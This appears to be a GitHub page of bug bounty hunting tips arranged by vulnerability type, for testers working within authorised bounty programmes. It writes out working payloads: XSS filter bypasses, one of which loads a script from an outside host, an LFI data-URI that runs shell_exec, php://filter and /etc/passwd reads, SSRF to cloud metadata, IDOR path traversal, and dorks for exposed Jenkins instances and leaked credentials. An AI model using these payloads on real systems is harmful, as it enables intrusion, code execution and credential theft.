 # Bug Bounty Tips

### Recon
- Don't stop when you see the response forbidden/not found on the target you are testing, run dirsearch or any tool you prefer to find endpoints, like recon in [this writup](https://medium.com/bugbountywriteup/900-xss-in-yahoo-recon-wins-65ee6d4bfcbd).

### XSS
- I love it when a site creates a filter to 'try' prevent something like XSS (or even certain file extensions from being uploaded:D). In this case, [xss filter bypass: </script><%0dscript%20src=\http://mysite.com/yay.js>](https://www.bugbountynotes.com/forum/viewpost?id=100)
- Have you ever come across an issue, where you could pop XSS but parenthesis () gets filtered ? this payload ``onfocus="alert`1`"autofocus=`` will bypass that problem.
- "URL-encoding payload symbols" AND "The fragment(`#`) isn’t sent to the server - this means that no server-side firewall can see it, so it cannot stop attacks coming from this direction."
  - `https://www.bugbountytraining.com/challenges/challenge-10.php#?message=%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
  - `https://www.bugbountytraining.com/challenges/challenge-10.php?message=#%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
- The obstacle was to made the JavaScript code execute without error (the browser stops script execution on the first error).
  - ``http://try.harisec.com/chals/qli/?q=testing\&format=});alert(1);a=function(){`;%3C!--``
  - The trick here was to use an unusual way to comment the JavaScript code until the end of line (`<!--`) as the usual sequence `//` was also encoded.
  - The last trick was to use ES6 template strings ``(`)`` to be able to combine two reflections and finally exploit the injection.
```
      <script type="text/javascript">
        function init() {
          $(document).ready(function () {
            logTrackingData({searchType:"simple",query:"testing\",format:"});alert(1);a=function(){`;&lt;!--",pageId:"12345",pageNo:"1",searchCategory:"210",suggestions:"",results:""});
          })
        }
      </script>
```
- You can bypass a lot of XSS filters using HTML comments. They bypass it because they don't look/act like other tags. You can sometimes insert additional HTML too.
  - Example: `<!----><script>alert(0);</script>`
- By removing the "Content Security Policy" header from the response, we could check if the alert box not popping because of CSP. Or we could check CSP violation error message in "Console" in Chrome debug tool.
- If you open the url in the browser and see nothing but blank page, do not assume there is nothing there.
  - ALWAYS check the source code. There might be a bunch of JavaScript or e.g. some commented source code from server.
- ALWAYS check the full response on any request. Errors can sometimes give u the keys to the kingdom if u actually figure out what ur looking at witin the error response.

### IDOR

- When you're looking at an asset that may use a microservices architecture, look for IDOR vulnerabilities using path traversal. E.g. `https://example/?id=1/../2`.
  - The authorization check may pass because the user is allowed to see resource 1 and the system ignores /../2 in the authorization layer. This could work because some microservice architectures use HTTP to transport messages.
  - When one of the microservices implemented an HTTP endpoint like "/resource/:id" and it trusts the message from the sender, you may end up requesting "/resource/1/../2", which resolves to "/resource/2", given you access to an object you may not be authorized to see.
  - Yeah, I have encountered several issues of this type. like `https://example/?id=1/.../..../..../id=2` but never ended up in path traversal vulnerabilities.

### Information Disclosure

- Want to find some internal code of companies or some sample codes of new features? Checkout with: `site:http://repl.it  intext:<companydomain>`. In companydomain, if you know the internal domain it is even better.
  - `site:http://gist.github.com`
- Search for public Trello boards of companies, to find login credentials, API keys, etc. Or if you aren't lucky enough, then you may find companies' Team Boards sometimes with tasks to fix security vulnerabilities.

### SSRF

- a = Find fixed SSRF. b = Find open redirection in whitelisted domains. C = Amazon Aws metadata API.
  - a+b+C = Boom.
- Just had a weird SSRF 'bypass' which would only pull data from their domain so anything you queried would be `hxxps://www.theirdomain.com/reflectedhere/`. Weirdly using `/%2F//mysite.com/` caused it to hit external sites.

### LFI

- When lfi doesnt work to get `/etc/passwd` for example, you can always try to get source code disclosure by using the function of php://filter: `php://filter/convert.base64-encode/resource=index`
- When you came up with a file= parameter before trying for other rfi see phpinfo page is accessible or not you might get some juicy information. e.g.`file=data:text/plain, <?php phpinfo(); ?>`
  - Why prefer phpinfo() when you can `data:text/plain, <?php echo shell_exec("ls"); ?>`? (in both cases, allow_url_include=1).
  
### CSRF

- When testing for CSRF, send the POST parameters using GET method, eg: `GET /[post endpoint]?postprm1=value&postprm2=value2`. You will be surprised how many developers forget to add csrf protection on GET methods of the same endpoints.
  
### Higher Privilege

- If a website does not verify email, try signing up with <whatev>@domain.com (the company email). Sometimes this gives you higher privilege like deleting/viewing any other user's profiles etc.
  
### Hiden Endpoints

- A redirect to SSO does not always mean that every endpoints are behind the SSO. Specially if it is a popular instance like JIRA, Confluence etc, check to see if you can still hit endpoints like search sections, filters etc.

### Jenkins

- Sometime an open Jenkins dashboard can be as critical as below finding. A Shodan query to list all such publically accessible Jenkins Instance: `https://www.shodan.io/search?query=x-jenkins+200`
- sometimes you find those PATHs that forwards to a login page & you can't see the content inside them (ex: `/path/to/secret` --> Google login).
  - Take all these PATHs, prepend `/public/` to all of them as: `/public/path/to/secret`, got access to a Jenkins instance.

### HTTP Methods

- If server only allows GET and POST method, then try adding "X-HTTP-Method -Override: PUT to achieve RCE via PUT method.

### Open Redirection

- For Open Redirects you can bypass a lot of WAF using a special character which a lot of browsers (such as FireFox) convert into a '.' which will complete your URL.
  - The character is: 。
  - Usage: redirecthere。com
- There is no redirect using location header and the response code is 200 but the author still got redirected, which can mean only one thing, the redirect performed using javascript in the browser. Usually it means something like this: `window.location.href = nextURL;`. In theory if someone can control the `nextURL` parameter, he can perform XSS: `window.location.href = javascript:alert(1);//` or `window.location.href = data:text/html;HTML_CODE`.
- Using "Content Security Policy" to define which sources are allowed to be loaded could stop browser following 302 redirection (If this works, CSP violation error message will show in "Console" in Chrome debug tool). As show in [this writeup](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/).

### TOOLS
  
- Don't forget the google dorks, sometimes when you can't find nothing, let google find something for you. Check [this list of advanced google dorks](https://pastebin.com/zYPZNbMK) and use them.
  - Use of Google dorks and the site operator is a good way to identify vulnerable apps on sites with bounty. The inurl:/OA_HTML to get [unpatched instances with XSS or SQLi](https://the-infosec.com/2018/11/06/oracle-ebs-security-auditing/) is one of them.
  - To discover domains deployed on Github for subdomain takeover, following google dork can be used :- intext:"There isn't a Github Pages site here" and intitle:"Site not found · GitHub Pages".
- Always check the error message in "Console" in Chrome debug tool.
- Debugging Javascript can yield gold. You can edit source files directly by enabling "Local Overides" in Chrome. Changes made will persist, even after you refresh the page! 
